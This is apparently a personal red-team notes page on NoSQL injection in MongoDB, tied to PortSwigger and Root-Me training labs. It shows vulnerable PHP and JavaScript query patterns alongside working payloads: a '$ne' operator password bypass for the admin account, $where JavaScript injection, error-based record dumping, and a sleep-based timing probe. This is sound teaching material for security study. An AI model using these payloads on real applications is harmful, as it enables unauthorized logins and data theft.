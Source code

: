 # NoSQL Injection (NoSQLi)

[![nosql_injection](../../../../_badges/ps-course/nosql_injection.svg)](https://portswigger.net/web-security/nosql-injection)

<div class="row row-cols-lg-2"><div>

According to a company or an application needs, a NoSQL database may be used instead of the traditional SQL database. This is often the case when using [GraphQL](/programming-languages/others/apis/graphql/index.md) API Model.

While NoSQL database such as MongoDB are inherently more resilient to common attacks, they may still be exploited.

* Test characters such as `'"};\r\n$Foo&|`
* Test coercing variables into arrays

If one is successful for NoSQL, there you may have an injection.
</div><div>

</div></div>

<hr class="sep-both">

## NoSQL Parameter injection ✍️

[![nosql_injection](../../../../_badges/ps-course/nosql_injection.svg)](https://portswigger.net/web-security/nosql-injection)
[![nosql_injection_authentication](../../../../_badges/rootme/web_server/nosql_injection_authentication.svg)](https://www.root-me.org/en/Challenges/Web-Server/NoSQL-injection-Authentication)

<div class="row row-cols-lg-2"><div>

The MongoDB PHP code to list all users matching a username is:

```php!
$result = $db_accounts->find(['username' => $username, 'password' => $password]);
```

If the type of `$password` is not verified, then we can try to coerce it into an array. If the input format is not JSON, try [HTTP parameter pollution](/cybersecurity/red-team/s2.discovery/techniques/websites/logic_flaws.md#http-parameter-pollution).

```php!
// bypass the password check
// ne=not equals
$result = $db_accounts->find([
    'username' => 'admin', 
    'password' => ['$ne' => '']
]);
```
</div><div>

We can use multiple operators such as:

* `['$in' => ['a', 'b']]`: keep values in array
* `['$nin' => ['a', 'b']]`: do not keep values in array
* `['$regex' => 'adm']`: keep values matching a regex (`admin`, etc.)
* `['$where' => '...']`: refer to [NoSQLi Query Injection](#nosql-query-injection-)

Some systems such as MongoDB offer what we call a projection. It indirectly prevents us from accessing unselected parameters.

```php!
// ... But only returns the property 'username' 
$results = $db_accounts->find(..., ['projection' => ['username' => 1]]);
```
</div></div>

<hr class="sep-both">

## NoSQL Query injection 📚

[![nosql_injection](../../../../_badges/ps-course/nosql_injection.svg)](https://portswigger.net/web-security/nosql-injection)
[![nosqli_detection](../../../../_badges/ps-lab/nosqli/nosqli_detection.svg)](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-detection)

<div class="row row-cols-lg-2"><div>

NoSQL Query Injection occurs when the developer either passed the whole user input to the MongoDB function -or- the developer used user-input in the `$where` clause without any security mechanisms.

```!
const user_input = {'username': 'admin'}
const results = await collection.find(user_input).toArray();
```

```js!
const user_input = 'admin'
const results = await collection.find({
    $where: `this.username == "${user_input}"`
}).toArray();
```

```php!
// It's not limited to JavaScript, but the syntax changes
$username = 'admin';
$results = $db_accounts->find([
    '$where' => "this['username'] == '$username'"
]);
```

When we control the whole first parameter, we can inject a `$where`:

```!
const user_input = {'username': 'admin', '$where': '...'}
```
</div><div>

Inside the `$where`, we can write arbitrary code in the language of the backend that will be evaluated. If errors are shown, use exceptions:

```js!
{ ..., '$where': 'throw JSON.stringify(this)' }
```

Otherwise, we can use a Boolean-Based or Time-Based approach <small>(if there are no changes in the response)</small> to extract characters one by one.

```js!
// Test '1' and '0' and look for changes in the output
{ ..., '$where': '1' }
// JavaScript (tested, there is a 'sleep' function) 
{ ..., '$where': 'true ? sleep(5000) : 0' }
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Test Null Byte (It's not working with recent versions)
</div><div>
</div></div>